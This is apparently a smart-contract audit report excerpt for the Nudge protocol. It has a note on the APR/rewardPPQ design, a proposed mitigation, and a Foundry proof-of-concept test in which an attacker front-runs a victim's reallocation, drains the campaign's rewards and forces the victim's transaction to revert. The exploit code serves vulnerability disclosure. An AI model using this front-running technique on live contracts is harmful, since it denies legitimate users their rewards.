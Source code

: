 7. Note that even if we consider that the rewardTokens percentage being offered are supposed to be "locked" at the campaign start date as per Nudge protocol's design decision, the above issue exists because the APR with which the CampaignAdmin set up the campaign is not the same as what would be offered on campaign start date when it becomes active ( OR the returns given after maturity when user calls `claimRewards()`, but the latter could be considered a design decision ).

## Mitigation 
Allow the CampaignAdmin to specify the APR at campaign creation time instead of `rewardPPQ`. Then, when the contract is actually made active at `timestamp = startTimestamp` query oracle prices to lock the correct `rewardPPQ` value based on this APR.

[Back to Top](#summaryTable)













PoC response to 700:
Please add the test inside `src/test/NudgeCampaignReallocation.t.sol` to see it pass:
```js
    function test_SandwichAttack_DoS() public {
        // Create attacker and victim addresses
        address attacker = makeAddr("attacker");
        address victim = makeAddr("victim");
        
        uint256 attackerAmount = 5_000_000e18; // will use up all rewards
        uint256 victimAmount = 100e18;
        
        // Fund accounts
        deal(address(targetToken), attacker, attackerAmount);
        deal(address(targetToken), victim, victimAmount);
        deal(address(targetToken), swapCaller, 0); // Reset swapCaller balance

        // approvals to swapCaller
        vm.prank(attacker);
        targetToken.approve(swapCaller, attackerAmount);
        vm.prank(victim);
        targetToken.approve(swapCaller, victimAmount);
        
        // 1. FRONT-RUN: Attacker performs a large allocation
        vm.startPrank(swapCaller);
        targetToken.transferFrom(attacker, swapCaller, attackerAmount);
        targetToken.approve(address(campaign), attackerAmount);
        campaign.handleReallocation(1, attacker, address(targetToken), attackerAmount, "");
        vm.stopPrank();
        
        // Check remaining rewards
        uint256 remainingRewards = campaign.claimableRewardAmount();
        console.log("Remaining rewards after attacker:", remainingRewards);
        assertEq(remainingRewards, 0); // all reward exhausted
        
        // 2. VICTIM TX
        vm.startPrank(swapCaller);
        targetToken.transferFrom(victim, swapCaller, victimAmount);
        targetToken.approve(address(campaign), victimAmount);
        // Should revert because not enough rewards available
        vm.expectRevert(INudgeCampaign.NotEnoughRewardsAvailable.selector);
        campaign.handleReallocation(1, victim, address(targetToken), victimAmount, "");
        vm.stopPrank();
        
```